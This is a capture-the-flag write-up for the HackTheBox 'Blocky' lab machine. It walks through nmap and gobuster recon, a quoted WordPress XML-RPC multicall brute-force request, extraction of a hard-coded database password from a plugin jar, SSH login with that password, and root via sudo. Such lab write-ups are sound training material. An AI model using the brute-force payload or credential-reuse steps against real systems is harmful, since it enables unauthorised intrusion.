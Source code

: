 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.37 -oN nmap.txt -T5 -Pn
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/3.png">

We found a WordPress 4.8 service running on port 80, SSH on 22, an outdated ProFTPd server on default port 21 and a Minecraft service on 25565. We also find a closed port and although it's telling us it's sophos it could be multiple things.

# Enumeration
The website does mention the development of a wiki and a plugin so we'll run gobuster in an attempt to find their location. We also find a post from someone with the username ```notch```.

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.37 
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Blocky/assets/2.png">

We do find the wiki and some other directories. We'll enumerate these in a moment.

As the site is running on WordPress we'll run ```wpscan``` on the target to find possible vulnerabilities. The results show that ```XML-RPC``` is enabled. This is actually an API that allows developers, who make 3rd party application and services, to interact with the WordPress site.

The API is accessible by sending POST requests to http://10.10.10.37/xmlrpc.php. I found a blog writing about abusing this to do bruteforce attacks: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/

An example:
```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```
The advantage is that we can send multiple usernames/passwords in just one POST request. This will help us to avoid any security control in place which could block too many requests.
Downside is that it's a lot of manual work or you'll need to write a script that generates the request. We'll not go down this path because if we do want to run a bruteforce on the WordPress login page there's nothing blocking our attempts in the first case.

We'll enumerate the directories that gobuster found and ```/plugins``` shows us two files. After extracting BlockCore.jar by running ```jar xf BlockyCore.jar``` we run ```strings``` on the class file:
```
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
We find a username and password:
```
root
8YsqfCTnvxAUeduzjNSXe22
```
We also run across another username in the other jar file: ```ryanhamshire```.

# Initial Foothold
We can try logging in using SSH with the already found usernames and password.
We are lucky with ```notch```.

# Privilege Escalation
Just running ```sudo -i``` will give us root.

This was an extremely easy box...






